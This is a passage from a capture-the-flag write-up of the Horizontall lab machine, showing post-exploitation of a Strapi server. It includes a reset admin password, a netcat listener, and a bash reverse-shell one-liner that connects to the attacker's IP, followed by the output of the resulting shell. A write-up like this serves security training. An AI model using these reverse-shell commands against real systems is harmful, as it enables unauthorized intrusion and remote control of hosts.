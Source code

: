 From the output we can see that the exploit was executed successfully and the password for the admin user was reset. We now have the credentials:\
`admin`:`SuperStrongPassword1`


---
### Post Exploitation

Further, since this was a Remote Code Execution (RCE) exploit, we can now use the shell to attempt executing commands on the target host.

```zsh
$> whoami

[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
{"statusCode":400,"error":"Bad Request","message":[{"messages":[{"id":"An error occurred"}]}]}
```

Unfortunately it appears that any commands we run are not actually working.

We can attempt to execute a reverse shell command to try and obtain a shell using netcat. Given this is a linux machine, we can try to use a simple bash reverse shell one-liner from [**PayloadsAllTheThings**](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp).

However, first we need to set up our listener using `netcat`

```zsh
0x3ds@kali $ nc -lvnp 9001

listening on [any] 9001 ...
```

With our listener set up, we can now execute our reverse shell command.

```zsh
$>  bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'

[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
_
```

This resulted in our shell hanging. We can now return to our `netcat` listener and see below that we have obtained a more stable reverse shell connection with the target!

```zsh
0x3ds@kali $ nc -lvnp 9001

listening on [any] 9001 ...
...

connect to [10.10.14.8] from (UNKNOWN) [10.129.235.221] 52316
bash: cannot set terminal process group (1963): Inappropriate ioctl for device
bash: no job control in this shell
strapi@horizontall:~/myapi$
```
